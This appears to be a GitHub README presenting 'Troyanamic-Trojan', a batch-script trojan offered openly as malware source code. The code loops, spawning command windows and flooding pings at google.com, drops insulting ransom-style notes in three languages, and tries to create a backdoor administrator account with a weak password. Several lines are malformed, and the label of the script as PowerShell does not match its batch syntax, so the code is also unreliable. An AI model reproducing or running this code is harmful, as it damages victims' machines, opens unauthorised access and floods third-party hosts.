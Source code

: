 # Troyanamic-Trojan
This Trojan Can Give A Message With Most Popular Languages, Do DDoS/DoS Attacks, Give Backdoor Access To Hackers, Send Bulk E-mails, Gave Error Masseges, etc.)
simple powershell trojan
Troyanamic.ps1

code:-
@echo off
:a
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
 start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500
start cmd.exe
ping www.google.com -t -l 65500 
echo "Your PC Is Fucked By The Troynamic Trojan" >>note.txt
start note.txt
echo "आपका पीसी ट्रॉयनामिक ट्रोजन द्वारा गड़बड़ कर दिया गया है" >>hindi_note.txt
start hindi_note.txt
echo "你的电脑被 Troynamic 特洛伊木马搞砸了">>chinese_note.txt
start chinese_note.txt
net user DELL3410 /add
net user DELL3410/12345
net administrator localgroup DELL3410
$PSEmailServer
Send-MailMessage -From 'User01 <boyc47597@gmail.com>' -To 'User02 <jayasamarag@gmail.com>' -Subject 'Test mail'
msg * Your PC Is Fucked By The Trpyanamic Trojan
goto a
